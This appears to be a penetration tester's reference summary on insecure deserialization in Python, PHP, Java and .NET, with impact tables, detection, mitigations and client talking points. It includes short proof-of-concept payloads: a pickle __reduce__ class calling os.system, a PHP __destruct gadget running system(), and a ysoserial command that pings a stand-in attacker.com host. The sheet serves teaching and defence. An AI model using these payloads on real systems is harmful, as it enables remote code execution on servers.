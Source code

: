 Insecure Deserialization Summary (Python, PHP, Java, .NET)

This document provides an overview of insecure deserialization vulnerabilities across major ecosystems. It includes high-level descriptions, language-specific behaviors, PoC strategies, and guidance for red teamers and client-facing demonstrations.

⸻

What Is Insecure Deserialization?

Deserialization is the process of turning structured input (e.g. JSON, XML, binary) into native in-memory objects. If this process accepts untrusted input without validation or safety checks, it can lead to serious vulnerabilities including:
	•	Remote Code Execution (RCE)
	•	Arbitrary file writes or reads
	•	Object property injection
	•	Logic manipulation or bypass

⸻

Business Impact

Risk Scenario	Impact Level	Real-World Effect
Remote code execution via gadgets	Critical	Full compromise of server
Property overwrite of internal objects	High	Authentication bypass, privilege escalation
File write/read	High	Leaking secrets, installing webshells
Application logic manipulation	Medium	Bypassing validation, triggering errors


⸻

Language-Specific Behavior

Python

Vulnerable Functions/Modules:
	•	pickle.load() / pickle.loads()
	•	yaml.load() (unsafe mode)
	•	marshal.loads()
	•	jsonpickle (automatically restores objects)

Payload Format: base64-encoded or direct binary

Common Exploit Tools:
	•	pickletools, os.system gadgets
	•	Custom class with __reduce__()

import pickle, base64
class RCE:
    def __reduce__(self):
        import os
        return (os.system, ("calc",))

payload = base64.b64encode(pickle.dumps(RCE())).decode()


⸻

PHP

Vulnerable Functions:
	•	unserialize()

Common Gadget Chains:
	•	Magic methods like __wakeup(), __destruct(), __toString()
	•	Popular libraries: Laravel, Monolog, Slim, Symfony

class Exploit {
    public $cmd = 'id';
    function __destruct() {
        system($this->cmd);
    }
}

echo serialize(new Exploit);

Defense Bypass:
	•	Encoded payloads in cookies, POST fields

⸻

Java

Vulnerable Libraries/Classes:
	•	Apache Commons Collections
	•	Spring Beans
	•	Java Serialization (ObjectInputStream)

Common Tooling:
	•	ysoserial (payload generator)

Payload Usage:
	•	Injected into serialized session, form data, encrypted tokens

java -jar ysoserial.jar CommonsCollections1 'ping attacker.com' > payload.ser

Execution Sink:
	•	readObject(), readResolve(), custom deserialization logic

⸻

.NET

Vulnerable APIs:
	•	BinaryFormatter.Deserialize()
	•	SoapFormatter
	•	JSON.NET w/ TypeNameHandling

Payload Structure:
	•	Binary (for BinaryFormatter) or JSON (for Json.NET)

Tools:
	•	ysoserial.net, SharpSerializer, FastJSON

// Dangerous: allows type specification in JSON
JsonConvert.DeserializeObject(json, settings: new JsonSerializerSettings {
    TypeNameHandling = TypeNameHandling.All
});

Common Gadget Chains:
	•	ObjectDataProvider
	•	WindowsIdentity

⸻

Detection Strategies

Technique	Details
Source code review	Look for unserialize, load, etc
Taint analysis	Track untrusted input to deserializers
Fuzzing with payloads	Use out-of-spec serialized data
Behavior timing / error messages	Server errors or delays on crafted inputs


⸻

Common Injection Points
	•	Encrypted or base64-encoded session cookies
	•	JWT tokens (especially if using non-standard formats)
	•	Hidden POST fields (especially in admin forms)
	•	REST API inputs where binary blobs are accepted

⸻

Mitigation Recommendations
	•	Avoid native deserialization of untrusted data entirely
	•	Use safe parsing modes (e.g. yaml.safe_load)
	•	Use allowlists of permitted classes/types
	•	Sign/verify or encrypt serialized data (with caution)
	•	Monitor/log deserialization errors aggressively

⸻

What to Tell the Client
	•	“This vulnerability allows an attacker to inject crafted data that results in arbitrary code execution.”
	•	“Deserialization bugs often bypass normal authentication and access control.”
	•	“These are usually silent attacks — they don’t show up in logs unless specifically monitored.”
	•	“Safe libraries or config flags exist for all major platforms and should be enforced as default.”

⸻

Tools for Testing
	•	ysoserial (Java)
	•	ysoserial.net (.NET)
	•	pickle/jsonpickle/ruamel.yaml (Python)
	•	PHP PoCs using serialized object chains
	•	Burp Suite + Turbo Intruder for fuzzing

⸻

Related CWE References
	•	CWE-502: Deserialization of Untrusted Data
	•	CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes
	•	CWE-20: Improper Input Validation

⸻

Feel free to copy this summary into your course prep, pentest reports, or share with clients as a technical overview + risk explanation.